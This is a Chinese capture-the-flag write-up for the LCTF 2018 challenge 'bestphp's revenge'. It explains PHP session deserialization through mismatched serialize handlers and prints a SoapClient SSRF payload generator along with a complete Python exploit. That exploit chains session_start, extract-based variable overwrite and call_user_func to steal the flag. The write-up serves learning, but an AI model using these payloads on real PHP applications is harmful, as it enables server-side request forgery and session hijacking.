








第十一题bestphp’s revenge


TODO 有待研究


https://stickman.top/2018/11/21/LCTF-bestphp-s-revenge/

https://www.cnblogs.com/20175211lyz/p/11515519.html

https://www.anquanke.com/post/id/153065#h2-1

https://www.smi1e.top/lctf2018-bestphps-revenge-%E8%AF%A6%E7%BB%86%E9%A2%98%E8%A7%A3/


index.php源码

```javascript
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?> array(0) { }
```

flag.php源码

```javascript

only localhost can get flag!session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!

```

这个题目暗示我们用SSRF来拿flag。

扫一遍index.php的源码，我们能控制的点有三个

- $_GET[‘f’]

- $_POST

- $_GET[‘name’]

还有一个回调函数call_user_func，这个本身函数不会返回最后的结果。返不返回要看传递的第一个函数是否能够产生结果。下面来个例子

```javascript
<?php 
class AAA{
    static function hello()
    {
        echo "Mrkaixin";
    }
}

call_user_func(array('AAA','hello'));


 ?>
```




输出结果

如果我们传的是一个数组的话，那么数组的第一个参数就是类的名字，第二个就是类中的方法。

然后的问题就是session的反序列化漏洞，其实就是因为session.serialize_handler=xxx处理session方式前后不一致，导致反序列化漏洞

实验的php版本>5.5，我自己也试了在php5.45.x的版本下，没有sessoin的php_serialize的这个引擎



php版本要大于5.5

我们可以试验一下,php中session的内容是存在文件里的，在实验前先要改一下php.ini的配置，把session 的文件储存位置改一下，找到session.save_path =然后后面填入你自己存session 的位置即可。



session内容是以文件的方式储存的

有session的内容name|s:8:"Mrkaixin";可以看到存储的类型为php而不是序列化，我们再来试试是php_serialize的方式



可以看到和正常反序列化是一样的

在一个当服务器调用session_start的是会去访问PHPSESSION所对应的文件中的内容，然后反序列化出来，这样如果内容中包含析构函数的话，那么就会在类被销毁前调用，如果我们可以控制析构函数里面的一些类的属性的话，那么就可以造成攻击

那么假设一种情况，如果服务器用的是php_serilaze的引擎，我们传入的序列化字符串是php引擎产生的会怎么样呢

首先建立一个session的文件solve.php

```javascript
<?php 
ini_set('session.serialize_handler', 'php');
session_start();
class test {
    var $hi="happy";
    function __construct(){
        $this->hi = 'phpinfo();';
    }

    function __destruct() {
         echo $this->hi;
    }
}
 ?>
```

接着建立个接受session的文件get.php：

```javascript
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
我们在get.php中输入
http://localhost/get.php?a=|O:4:"test":1:{s:2:"hi";s:3:"sad";};}
```

然后我们再去访问solve.php,会发现原先test类中的$hi="happy"被替换成了sad，类比这种情况我们就可以进行，session的反序列化攻击了。



happy->sad

接下来就是SSRF了，这里写一写我看过的很好的文章吧

N1CTF Easy&&Hard Php Writeup

反序列化之PHP原生类的利用

由于涉及的东西太多，和水平有限，所有不误人子弟了，各位师傅自己去看。

这里直接利用一下smi1e师傅写的代码

```javascript
<?php
$url = "http://127.0.0.1/flag.php";
$b = new SoapClient(null, array('uri' => $url, 'location' => $url));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo "|" . urlencode($a);
?>
```

接下来分两步走，先利用session反序列化，来把我们的SSRF内容写入session文件中。



本地生成代码

然后构造如下包



传入f、name以及post参数

然后利用变量覆盖漏洞，覆盖掉变量b为回调函数call_user_func


然后就可以发现本地的phpsessionid

替换之后就可以得到flag



flag到手

构造Soapclinet脚本

```javascript
<?php
$url = "http://127.0.0.1/flag.php";
$b = new SoapClient(null, array('uri' => $url, 'location' => $url));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo "|" . urlencode($a);
echo "\n";

?>
```

exp

```javascript
import requests
import re

#这里填网址
url = ""
req = requests.Session()
payload = "?f={}&name={}"

step_one_f = "session_start"
step_one_name = "|O%3A10%3A%22SoapClient%22%3A3%3A%7Bs%3A3%3A%22uri%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D"
data = {
    'serialize_handler': "php_serialize"
}
headers = {
    'Cookie': 'PHPSESSID=ddddddddd',
    'Content-Type': 'application/x-www-form-urlencoded'
}
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'https://127.0.0.1:8080'
}

url_exp = url + payload.format(step_one_f, step_one_name)
r = req.post(url_exp, data=data, headers=headers)# proxies=proxies)
text = r.text
print(re.findall(r'(?<=<\/code>)[\W\w]*', text))

step_two_f = "extract"
step_two_name = "SoapClinet"
data = {
    'b': 'call_user_func'
}
url_exp = url + payload.format(step_two_f, step_two_name)

r = req.post(url_exp, data=data, headers=headers)  # proxies=proxies)
r = req.post(url_exp, data=data, headers=headers)  # proxies=proxies)
text=re.findall('string\(26\)[\w\W]+?(?=\[1\])', r.text)[0]
SESSIONID=text.split('"')[1]
headers={
    'Cookie':"PHPSESSID={}".format(SESSIONID)
}
r=req.get(url,headers=headers)
print(r.text)

```

参考链接

Smi1e师傅题解

反序列化之PHP原生类的利用

PHP中SESSION反序列化机制